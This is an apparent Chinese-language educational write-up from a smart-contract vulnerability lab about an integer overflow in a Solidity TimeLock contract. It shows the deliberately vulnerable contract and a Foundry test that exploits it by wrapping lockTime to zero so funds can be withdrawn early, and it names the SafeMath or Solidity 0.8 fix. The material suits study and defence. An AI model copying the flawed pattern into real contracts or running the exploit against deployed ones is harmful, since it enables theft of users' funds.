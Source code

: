 # 整数溢出
[Overflow.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Overflow.sol)  

**名称：** 整数溢出漏洞  
**描述：**  
TimeLock 合约在智能合约代码中存在一个漏洞，允许攻击者从 TimeLock 合约中提前提取其存款。  
这个漏洞是因为 increaseLockTime 函数中发生了溢出，该函数以一种导致锁定时间回绕为 0 的方式操作锁定时间，  
使得攻击者能够在实际等待期到期之前提取他们的资金    


**场景：**     
这个智能合约是为了充当时间保险库。  
用户可以将资金存入合约，但是至少要等1周才能取出。  
用户还可以在这1周锁仓时间的基础上延长锁仓时间。


1. Alice和Bob都有1个以太币的余额 
2. 部署TimeLock合约  
3. Alice和Bob都将1个以太币存入TimeLock，他们需要等待 1 周才能解锁以太币 
4. Bob在他的锁定时间上造成了溢出
5. Alice无法提取 1 个以太币，因为锁定时间尚未过期。
6. Bob 可以提取 1 个以太币，因为锁定时间溢出为 0

**发生什么了？**  
攻击导致TimeLock.lockTime产生溢出，这使得攻击者能够在1周的锁仓时间之前就取出资金。  
Import: Solidity < 0.8 且没有使用 SafeMath 

**解决方法：**  
为了解决溢出问题，可以使用SafeMath库或者使用版本高于0.8的Solidity  


**TimeLock 合约：**  
```solidity
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease; // 漏洞
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(
            block.timestamp > lockTime[msg.sender],
            "Lock time not expired"
        );

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```  
**如何测试：**  
forge test --contracts src/test/Overflow.sol -vvvv  
```solidity
// 这个testOverflow 函数, 用于测试溢出漏洞
    function testOverflow() public {
        // 记录Alice的余额
        console.log("Alice balance", alice.balance);
        // 记录Bob的余额
        console.log("Bob balance", bob.balance);

        // 记录“Alice开始存钱"
        console.log("Alice deposit 1 Ether...");
        // 设置Alice为deposit()的调用者
        vm.prank(alice);
        // Alice向TimeLock合约存入1个以太币
        TimeLockContract.deposit{value: 1 ether}();
        // 记录Alice的新余额
        console.log("Alice balance", alice.balance);

        // 记录"Bob开始存钱"
        console.log("Bob deposit 1 Ether...");
        // 设置Bob为msg.sender
        vm.startPrank(bob);
        // Bob向TimeLock合约存入1个以太币
        TimeLockContract.deposit{value: 1 ether}();
        // 记录Bob的新余额
        console.log("Bob balance", bob.balance);

    
        //漏洞：增加锁仓时间，使其变量lockTime溢出并变为0。
        TimeLockContract.increaseLockTime(
            type(uint).max + 1 - TimeLockContract.lockTime(bob)
        );

        // 记录"Bob将成功取款，因为变量lockTime发生溢出"。
        console.log(
            "Bob will successfully withdraw, because the lock time is overflowed"
        );
        // Bob取款
        TimeLockContract.withdraw();
        // 记录Bob的新余额
        console.log("Bob balance", bob.balance);
        // 将msg.sender恢复为合约实际调用者
        vm.stopPrank();

        // 将alice设置为msg.sende
        vm.prank(alice);
        // 记录"Alice将无法取款，因为锁仓尚未到期"。
        console.log(
            "Alice will fail to withdraw, because the lock time did not expire"
        );
        //尝试取款Alice的资金。由于锁仓尚未到期，这应该会导致回滚。
        TimeLockContract.withdraw(); // 预期会回滚
    }
```  
**红框：** TimeLock.lockTime发生溢出  
**紫框：** 溢出已修复
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fd444eaff-b1ef-4171-8890-76186c4de58a%2FUntitled.png?table=block&id=6ec73bdb-955c-42b4-a7c6-5bce2bf97805&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)